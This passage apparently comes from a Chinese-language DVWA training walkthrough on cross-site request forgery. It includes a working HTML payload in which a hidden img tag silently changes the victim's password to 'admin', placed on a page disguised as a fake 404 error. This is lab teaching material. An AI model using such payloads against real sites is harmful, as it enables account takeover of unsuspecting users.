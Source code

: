 ![](DVWA.assets/dvwa-low-6.png)

但是此代码打开效果就一个button，需要点击才会触发，如果点击之后，那么受害者也会发现自己的密码被更改了，所以此方法只是用来测试是否存在CSRF，在得知请求之后可以使用如img，body标签，直接请求

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
	<img src="http://192.168.124.131/vulnerabilities/csrf/?password_new=admin&password_conf=admin&Change=Change" style="display:none"/>
	<h1>404</h1>
	<h1>您访问的页面不存在</h1>
  </body>
</html>
```
